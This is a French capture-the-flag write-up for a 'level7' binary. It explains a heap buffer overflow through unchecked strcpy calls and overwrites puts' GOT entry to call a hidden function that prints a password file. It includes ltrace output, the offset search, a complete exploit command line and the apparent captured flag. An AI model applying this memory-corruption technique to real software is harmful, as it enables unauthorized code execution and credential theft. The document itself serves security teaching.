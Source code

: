 L'exécutable demande 2 arguments, les 2 arguments vont être stockés dans 2 variables différentes via des strcpy.
Les strcpy ne sont pas protégés donc on peux supposer qu'un buffer overflow sera utilisé.


Analysons le main.
4 malloc sont effectués afin de préparer les arguments pour les strcpy
arg1 est copier dans 0x0804a018
arg2 est copier dans 0x0804a038
puis le fichier .pass de l'user8 est ouvert et le contenu est enregistré dans une variable à l'adresse 0x8049960
enfin la fonction fini par un appel à puts@plt qui imprime "~~"

Via info functions dans gdb on remarque une fonction m non utilisée à l'adresse 0x080484f4 qui print le résultat de la fonction time ET notre variable 0x8049960 qui contient le .pass
On souhaite donc exécuter la fonction m après l'appel du fopen dans main

On peux supposer que l'appel de puts@plt est vulnérable en utilisant un overwrite du GOT en remplacant l'adresse de puts() par m()
Etant donné que malloc est utilisé pour les arguments des strcpy regardons leurs adresses via  ltrace
--ltrace ./level7 aaaa aaaa
malloc(8)                    = 0x0804a008 (1)
malloc(8)                    = 0x0804a018 (2)
malloc(8)                    = 0x0804a028 (3)
malloc(8)                    = 0x0804a038 (4)
strcpy(0x0804a018, "aaaa")   = 0x0804a018 (1 -> 2)
strcpy(0x0804a038, "aaaa")   = 0x0804a038 (3 -> 4)

si on segfault en aggrandissant (1) on remarque:
--ltrace ~/level7 aaaaaaaaaaaaaaaaaaaaaaaaaaaaa aaaa
strcpy(0x0804a018, "aaaaaaaaaaaaaaaaaaaaaaaaaaaaa")  = 0x0804a018
strcpy(0x61616161, "aaaa" <unfinished ...>

Le programme segfault car notre argument (1) stocké à 0x0804a008 a overwrite notre argument (3) à 0x0804a028

En trouvant l'offset ( qui est de 0x20 ) on peut manipuler l'adresse de destination du 2ème strcpy afin d'y mettre ce que l'on souhaite grace à (4) à l'adresse 0x0804a038

Encore une fois utilisons des pattern pour trouver l'offset et nous simplifier la vie:
-- ltrace ~/level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab AAAA
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...) = 0x0804a018
strcpy(0x37614136, "AAAA" <unfinished ...>

0x37614136 --> 20

vérifions cela
-- ltrace ./level7 `python -c "print('A'*20 + 'BBBB')"` AAAA
strcpy(0x42424242, "AAAA" <unfinished ...>

Cela fonctionne, maintenant nous pouvons chercher l'adresse où est stockée notre fonction puts et la remplacer par notre fonction m

-- readelf -r ./level7
08049928  00000607 R_386_JUMP_SLOT   00000000   puts

0x08049928 est notre emplacement et l'addresse de m est 0x080484f4

Maintenant que nous avons tous nous pouvons essayer d'exécuter m
-- ./level7 `python -c "print('A'*20 + '\x28\x99\x04\x08')"` `python -c "print('\xf4\x84\x04\x08')"`

5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9

